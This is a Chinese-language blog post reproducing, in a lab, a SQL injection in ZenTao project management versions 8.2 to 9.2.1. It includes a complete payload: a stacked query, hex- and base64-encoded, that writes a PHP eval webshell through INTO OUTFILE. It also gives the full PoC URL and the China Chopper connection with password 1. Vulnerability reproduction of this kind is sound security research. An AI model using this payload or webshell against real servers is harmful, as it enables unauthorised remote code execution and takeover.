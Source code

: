 ```yaml
---
title: 禅道SQL注入-漏洞复现
layout: post
post-image: /assets/images/bg.jpg
description: 禅道项目管理系统是一款常见的项目管理系统，无论是在渗透测试项目中，还是在攻防对抗中可能会经常遇到。因此，研究和复现禅道项目管理系统历史版本漏洞，具有一定价值意义。
tags:
- 漏洞复现
- 渗透测试
- 免杀
---
```


# 禅道SQL注入-漏洞复现    

​                                                                                                                       ——雷豹000     <!--各自的代号 如我的XF010101-->

## 前言

禅道项目管理系统是一款常见的项目管理系统，无论是在渗透测试项目中，还是在攻防对抗中可能会经常遇到。因此，研究和复现禅道项目管理系统历史版本漏洞，具有一定价值意义。    <!--主要是阐述存在的问题，将问题描述清楚，可适当引出解决方案-->

## 漏洞简介

受影响的版本：禅道8.2-9.2.1

环境下载地址：https://www.zentao.net/download/80035.html

## 复现详情

首先，在服务器上搭建禅道项目管理系统，搭建完成后，访问地址，页面如下 

<center>
![Inked图1_LI](/assets/images/20210806/Inked图1_LI.jpg)
</center>

访问http://x.x.x.x./zentao/index.php?mode=getconfig 获取版本信息 该版本存在漏洞

<center>
![Inked图2_LI](/assets/images/20210806/Inked图2_LI.jpg)
</center>

随便访问一个不存在的路径http://x.x.x.x/zentao/111111 ，报错显示文件路径信息

<center>
![Inked图3_LI](/assets/images/20210806/Inked图3_LI.jpg)
</center>

根据报错回显的路径，构造将一句话木马写入文件中的SQL语句

 `select'<?php @eval($_POST[1])?>' into outfile'C:/Users/Administrator/Downloads/xampp/zentao/www/bb.php'`

ASCIIhex加密》

`73656c656374273c3f70687020406576616c28245f504f53545b315d293f3e2720696e746f206f757466696c6527433a2f55736572732f41646d696e6973747261746f722f446f776e6c6f6164732f78616d70702f7a656e74616f2f7777772f62622e70687027`

继续将加密的语句放入下列语句中  前面加上0x

`{"orderBy":"order limit 1;SET @SQL=0x73656c656374273c3f70687020406576616c28245f504f53545b315d293f3e2720696e746f206f757466696c6527433a2f55736572732f41646d696e6973747261746f722f446f776e6c6f6164732f78616d70702f7a656e74616f2f7777772f62622e70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}`

base64加密》

`eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2YzY1NjM3NDI3M2MzZjcwNjg3MDIwNDA2NTc2NjE2YzI4MjQ1ZjUwNGY1MzU0NWIzMTVkMjkzZjNlMjcyMDY5NmU3NDZmMjA2Zjc1NzQ2NjY5NmM2NTI3NDMzYTJmNTU3MzY1NzI3MzJmNDE2NDZkNjk2ZTY5NzM3NDcyNjE3NDZmNzIyZjQ0NmY3NzZlNmM2ZjYxNjQ3MzJmNzg2MTZkNzA3MDJmN2E2NTZlNzQ2MTZmMmY3Nzc3NzcyZjYyNjIyZTcwNjg3MDI3O1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9`

构造poc地址：

`http://x.x.x.x/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2YzY1NjM3NDI3M2MzZjcwNjg3MDIwNDA2NTc2NjE2YzI4MjQ1ZjUwNGY1MzU0NWIzMTVkMjkzZjNlMjcyMDY5NmU3NDZmMjA2Zjc1NzQ2NjY5NmM2NTI3NDMzYTJmNTU3MzY1NzI3MzJmNDE2NDZkNjk2ZTY5NzM3NDcyNjE3NDZmNzIyZjQ0NmY3NzZlNmM2ZjYxNjQ3MzJmNzg2MTZkNzA3MDJmN2E2NTZlNzQ2MTZmMmY3Nzc3NzcyZjYyNjIyZTcwNjg3MDI3O1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9`

访问地址，添加referer

![Inked图4_LI](/assets/images/20210806/Inked图4_LI.jpg)

此时一句话木马已写入，在服务器文件中可查看到

![图5](/assets/images/20210806/图5.png)

中国菜刀连接http://x.x.x.x/zentao/bb.php  密码 1 ，连接成功

![Inked图6_LI](/assets/images/20210806/Inked图6_LI.jpg)

